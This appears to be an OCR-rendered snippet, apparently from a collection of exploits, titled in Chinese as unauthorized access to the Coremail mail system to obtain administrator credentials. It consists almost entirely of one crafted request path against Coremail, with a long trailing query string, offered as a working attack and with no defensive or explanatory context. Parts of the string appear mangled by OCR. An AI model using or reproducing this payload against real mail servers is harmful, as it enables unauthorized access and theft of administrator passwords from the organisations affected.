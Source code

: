 # Coremail 邮件系统未授权访问获取管理员账密

    ```
/coremail/common/assets/:/:/:/:/:/:/s?
biz=Mzl3MTk4NTcyNw==&mid=2247485877&idx=1&sn=7e5f77db320ccf9013c0b7aa7262
6688chksm=eb3834e5dc4fbdf3a9529734de7e6958e1b7efabecd1c1b340c53c80299ff5c688b
f6adaed61&scene=2
```
